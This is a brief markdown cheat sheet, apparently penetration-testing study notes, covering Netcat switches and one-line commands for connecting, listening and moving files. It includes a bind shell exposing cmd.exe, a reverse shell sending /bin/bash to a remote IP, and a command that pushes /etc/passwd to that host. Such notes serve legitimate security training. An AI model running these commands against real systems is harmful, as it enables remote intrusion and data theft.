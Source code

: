 # Tools and Reporting
## Tools
### Netcat
#### Switches
Switch | Description
-|- 
-n| Dont do DNS resolution
-v| Verbose Output
-l| Listen
-p| Port 
#### Connecting to a TCP/UDP port
```bash
nc -nv 10.10.10.10 4444
```
#### Listening on a TCP/UDP port
```bash
nc -nvlp 4444
```
#### Transfering files with Netcat - Download
```bash
nc -nvlp 4444 > download.exe
```
#### Transfering files with Netcat - Upload
```bash
nc -nv 10.10.10.10 4444 < /etc/passwd
```
#### Bind shell with Netcat
```bash
nc -nvlp 4444 -e cmd.exe
```
#### Reverse Shell with Netcat
```bash
nc -nv 10.10.10.10 4444 -e /bin/bash
```